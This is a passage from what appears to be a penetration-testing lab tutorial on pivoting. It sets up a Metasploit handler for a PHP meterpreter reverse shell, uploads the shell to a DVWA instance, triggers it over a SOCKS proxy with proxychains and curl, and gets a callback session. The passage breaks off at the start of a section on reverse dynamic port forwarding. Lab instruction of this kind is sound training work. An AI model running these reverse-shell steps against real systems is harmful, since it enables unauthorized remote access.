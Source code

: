 ```
msf6 > use exploit/mutli/handler
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 > exploit(multi/handler) > set lhost 192.168.56.111
lhost => 192.168.56.111
msf6 > exploit(multi/handler) > set lport 4445
lport => 4445
msf6 > exploit(multi/handler) > set disablepayloadhandler true
disablepayloadhandler => true
msf6 > exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[-] Handler failed to bind to 192.168.56.111:4445:-  -
[*] Started reverse TCP handler on 0.0.0.0:4445
```

Upload the reverse shell.

![[02 - PHP File Upload.png]]

Edit the Proxychains configuration.

```
userware@hackware-os:~$ cat /etc/proxychains4.conf
..[omitted]..
socks5  127.0.0.1 1080
```

Then execute the reverse shell.

```
userware@hackware-os:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.106:80  ...  OK

userware@hackware-os:~$ curl --socks5 127.0.0.1:1080 -X GET http://192.168.56.106/dvwa/hackable/uploads/rsh.php
```

We have established a meterpreter reverse shell.

![[03 - MSF Reverse Callback Shell.png]]

### 2.3 - Reverse Dynamic Port Forwarding

#### 2.3.1 - Conditions

The OpenSSH client must have a version 7.6 or above to use the feature. Otherwise, you'll stick with reverse tunneling techniques.
